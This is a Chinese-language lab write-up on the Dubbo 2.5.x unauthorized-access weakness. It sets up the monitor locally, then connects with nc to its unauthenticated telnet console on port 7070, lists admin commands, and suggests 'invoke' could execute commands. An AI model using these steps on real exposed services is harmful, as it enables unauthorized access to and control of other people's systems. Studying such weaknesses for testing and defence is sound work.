 # Dubbo 未授权访问

## 漏洞简介

Dubbo是阿里巴巴公司开源的一个高性能优秀的 服务框架，使得应用可通过高性能的 RPC 实现服务的输 出和输入功能，可以和 Spring框架无缝集成。dubbo 因配置不当导致未授权访问漏洞。 

## 环境搭建

```
git clone https://github.com/alibaba/dubbo/tree/2.5.x
```

进入dubbo-2.5.x 目录

执行`mvn clean package -Dmaven.test.skip=true`会生成如下结果

![image-20220726153013824](../../.gitbook/assets/image-20220726153013824.png)

在`dubbo-2.5.x/dubbo-simple/dubbo-monitor-simple/target`目录会发现生成了`dubbo-monitor-simple-2.5.10-assembly.tar.gz`，解压这个文件夹

查看配置文件，会看到dubbo协议端口为7070

```
[root@localhost dubbo-monitor-simple-2.5.10]# cat conf/dubbo.properties 

dubbo.container=log4j,spring,registry,jetty
dubbo.application.name=simple-monitor
dubbo.application.owner=
dubbo.registry.address=multicast://224.5.6.7:1234
#dubbo.registry.address=zookeeper://127.0.0.1:2181
#dubbo.registry.address=redis://127.0.0.1:6379
#dubbo.registry.address=dubbo://127.0.0.1:9090
dubbo.protocol.port=7070
dubbo.jetty.port=8080
dubbo.jetty.directory=${user.home}/monitor
dubbo.charts.directory=${dubbo.jetty.directory}/charts
dubbo.statistics.directory=${user.home}/monitor/statistics
dubbo.log4j.file=logs/dubbo-monitor-simple.log

```

启动dubbo

```
[root@localhost dubbo-monitor-simple-2.5.10]# bin/start.sh
```



## 漏洞利用

nc连接`7070`端口，7070端口允许您执行各种管理任务，如查看注册表的状态、列出可用服务和查看注册表的日志级别。

```
[root@localhost dubbo-monitor-simple-2.5.10]# nc 127.0.0.1 7070
ls
com.alibaba.dubbo.monitor.MonitorService
dubbo>help
Please input "help [command]" show detail.
 status [-l]                      - Show status.
 pwd                              - Print working default service.
 trace [service] [method] [times] - Trace the service.
 exit                             - Exit the telnet.
 help [command]                   - Show help.
 invoke [service.]method(args)    - Invoke the service method.
 count [service] [method] [times] - Count the service.
 clear [lines]                    - Clear screen.
 ls [-l] [service]                - List services and methods.
 log level                        - Change log level or show log 
 ps [-l] [port]                   - Print server ports and connections.
 cd [service]                     - Change default service.
dubbo>status
OK
dubbo>pwd
/
```

> 如果服务具有命令执行功能，则使用 "invoke" 命令可能会执行命令，因为 "invoke" 命令用于调用特定的服务方法。